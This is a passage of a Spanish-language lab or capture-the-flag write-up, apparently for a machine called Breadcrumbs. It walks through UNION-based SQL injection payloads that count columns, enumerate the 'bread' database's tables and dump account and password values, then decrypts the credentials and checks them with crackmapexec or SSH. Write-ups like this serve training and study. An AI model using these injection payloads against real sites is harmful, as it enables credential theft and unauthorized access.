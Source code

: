 Investigando vi que la base de datos solo tiene una columna.

````bash
>order by 1-- -
`````
![imagen-de-prueba](/assets/img/breadcrumbs/sql1.png)
_breadcrumbs_

Veamos el nombre de la base de datos.

````bash
>union select database()-- -
`````

![imagen-de-prueba](/assets/img/breadcrumbs/sql2.png)
_breadcrumbs_

Enumeremos las tablas de `bread`.

````bash
>union select table_name from information_schema.tables where table_schema="bread"-- -
`````

![imagen-de-prueba](/assets/img/breadcrumbs/sql3.png)
_breadcrumbs_

veamos el contenido de `account y password`.

````bash
>union select group_concat(account,0x3a,password) from bread.passwords-- -
#0x3a son dos puntos (:) en hexadecimal
`````

![imagen-de-prueba](/assets/img/breadcrumbs/sql4.png)
_breadcrumbs_

Tenemos las credenciales de `Administrador` pero en `base64`. en la pagina de `cyberchef` vamos a desencriptar las contraseña ya que tenemos la `aes.key` y la clave en `base64`

![imagen-de-prueba](/assets/img/breadcrumbs/base64.png)
_breadcrumbs_

Ahora tenemos la contraseña en texto plano, verificamos con crackmapexec o ssh.

![imagen-de-prueba](/assets/img/breadcrumbs/pwned1.png)
_breadcrumbs_

Tenemos pwned!!!!
